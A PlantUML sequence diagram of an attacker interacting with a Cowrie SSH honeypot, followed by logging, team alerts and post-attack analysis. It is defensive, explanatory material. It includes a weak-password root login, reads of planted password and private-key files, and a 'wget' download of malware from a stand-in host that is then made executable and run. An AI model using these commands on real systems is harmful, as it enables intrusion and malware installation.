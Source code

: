 @startuml Attack Sequence Diagram
!theme sketchy-outline
title Honeypot Attack Sequence - Cowrie SSH Honeypot Interaction

actor "Attacker" as attacker
participant "AWS Security Group" as sg
participant "EC2 Instance\n(44.222.200.1)" as ec2
participant "Cowrie Honeypot\n(Port 2222)" as cowrie
database "Honeypot Filesystem" as honeyfs
database "Log Files" as logs
participant "Team Monitoring" as team

== Initial Discovery ==
attacker -> sg : Port scan\n(TCP 22, 2222, etc.)
sg -> ec2 : Allow traffic\n(Security Group Rules)
ec2 -> attacker : Port 2222 open\n(SSH service response)

note right of attacker
  Attacker discovers what appears
  to be an SSH service running
  on port 2222
end note

== Authentication Attempt ==
attacker -> cowrie : SSH connection attempt\nssh root@44.222.200.1 -p 2222
cowrie -> logs : **LOG**: Connection from attacker IP
cowrie -> attacker : SSH banner\n"SSH-2.0-OpenSSH_6.0p1"

attacker -> cowrie : Username: root
attacker -> cowrie : Password: 123456
cowrie -> logs : **LOG**: Login attempt\nroot:123456
cowrie -> attacker : Authentication success\n(fake acceptance)

note over cowrie
  Cowrie accepts most common
  passwords to encourage
  continued interaction
end note

== Exploration Phase ==
attacker -> cowrie : whoami
cowrie -> honeyfs : Check fake /etc/passwd
honeyfs -> cowrie : Return "root"
cowrie -> attacker : root
cowrie -> logs : **LOG**: Command executed: whoami

attacker -> cowrie : ls -la
cowrie -> honeyfs : List fake directory contents
honeyfs -> cowrie : Realistic file listing
cowrie -> attacker : Show fake files/directories
cowrie -> logs : **LOG**: Command executed: ls -la

attacker -> cowrie : cd /home/admin
cowrie -> honeyfs : Navigate to fake directory
cowrie -> attacker : Directory changed
cowrie -> logs : **LOG**: Directory change: /home/admin

== Discovery of "Sensitive" Files ==
attacker -> cowrie : ls -la
cowrie -> honeyfs : Show fake sensitive files
honeyfs -> cowrie : Documents/passwords.txt\n.ssh/id_rsa (fake keys)
cowrie -> attacker : Display fake sensitive files

attacker -> cowrie : cat Documents/passwords.txt
cowrie -> honeyfs : Read fake password file
honeyfs -> cowrie : Fake credentials:\nadmin:password123\nuser:qwerty
cowrie -> attacker : Display fake passwords
cowrie -> logs : **LOG**: Accessed sensitive file\npasswords.txt

attacker -> cowrie : cat .ssh/id_rsa
cowrie -> honeyfs : Read fake SSH private key
honeyfs -> cowrie : Realistic-looking fake key
cowrie -> attacker : Display fake SSH key
cowrie -> logs : **LOG**: Accessed SSH private key

== Malicious Activity ==
attacker -> cowrie : wget http://malicious-site.com/malware
cowrie -> logs : **LOG**: Download attempt\nmalicious-site.com/malware
cowrie -> attacker : Fake download success
cowrie -> honeyfs : Store in fake filesystem

attacker -> cowrie : chmod +x malware
cowrie -> logs : **LOG**: File permissions changed
cowrie -> attacker : Permissions changed

attacker -> cowrie : ./malware
cowrie -> logs : **LOG**: Malware execution attempt
cowrie -> attacker : Fake execution output
cowrie -> honeyfs : Simulate file changes

== Team Monitoring ==
logs -> team : **ALERT**: Suspicious activity detected
team -> logs : Review attack patterns\nAnalyze commands
team -> logs : Export session logs\nfor analysis

note over team
  Team can review:
  • Complete session recordings
  • All commands executed
  • Files accessed/downloaded
  • Attack patterns and techniques
end note

== Session Termination ==
attacker -> cowrie : exit
cowrie -> logs : **LOG**: Session terminated\nDuration: XX minutes
cowrie -> attacker : Connection closed

== Post-Attack Analysis ==
team -> logs : Analyze attack session
team -> logs : Extract IoCs\n(URLs, IPs, malware)
team -> logs : Document attack techniques
team -> logs : Update security intelligence

note over logs
  Complete audit trail:
  • Source IP and geolocation
  • Session duration
  • Commands executed
  • Files accessed
  • Malware samples
  • Attack timeline
end note

@enduml